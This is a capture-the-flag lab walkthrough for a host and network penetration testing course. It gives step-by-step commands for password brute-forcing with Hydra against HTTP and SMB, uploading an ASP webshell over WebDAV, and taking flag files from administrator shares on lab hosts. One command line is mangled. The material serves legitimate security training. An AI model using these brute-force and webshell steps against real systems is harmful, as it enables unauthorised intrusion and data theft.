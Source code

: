 ## Host & Network Penetration Testing: System-Host Based Attacks

## Questions and Resolutions

### Q1. User ‘bob’ might not have chosen a strong password. Try common passwords to gain access to the server where the flag is located. (target1.ine.local)

**Resolution:**  
- Perform a reconnaissance scan with Nmap:
```bash
nmap -sC -sV target1.ine.local
```
- Notice port 80 is open with a 401 Unauthorized status.
- Brute-force the password for user `bob` using Hydra:
```bash
hydra -l bob -P /usr/share/metasploit-framework/data/wordlists/unix_passwords.txt target1.ine.local http-get
```
- Log in and perform directory fuzzing with Dirb:
```bash
dirb http://target1.ine.local -u bob:<password>
```
- Discover and navigate to `/webdav` for the target.

### Q2. Valuable files are often on the C: drive. Explore it thoroughly. (target1.ine.local)

**Resolution:**  
- Discover `.asp` file upload possibility (e.g., `test.asp`).
- Enumerate file upload extensions with davtest:
```bash
davtest -auth bob:<password> -url http://target1.ine.local/webdav
```
- Upload a shell using cadaver:
```bash
cadaver http://target1.ine.local/webdav
put /usr/share/webshells/asp/webshell.asp
```
- Use the shell to access the C: drive and list contents:
```bash
dir C:type C:lag2.txt
```
- Alternatively, use the Metasploit module `windows/iis/iis_upload_webdav_upload_asp`.

### Q3. By attempting to guess SMB user credentials, you may uncover important information that could lead you to the next flag. (target2.ine.local)

**Resolution:**  
- Scan with Nmap for open SMB port (445).
- Gather info with enum4linux (may be blocked).
- Brute-force user and password using Hydra:
```bash
hydra -L /usr/share/metasploit-framework/data/wordlists/common_users.txt -P /usr/share/metasploit-framework/data/wordlists/unix_passwords.txt smb://target2.ine.local
```
- Access the SMB share for administrator:
```bash
smbclient -L //target2.ine.local -U administrator
```
- Check share permissions with crackmapexec:
```bash
crackmapexec smb target2.ine.local -u administrator -p <password> --shares
```
- Connect to C$ and download flag:
```bash
smbclient //target2.ine.local/C$ -U administrator
dir
get flag3.txt
```

### Q4. The Desktop directory might have what you’re looking for. Enumerate its contents. (target2.ine.local)

**Resolution:**  
- Navigate to the Administrator's Desktop:
```bash
cd Users\Administrator\Desktop
dir
get flag4.txt
```
- Read the flag file locally with `cat`.

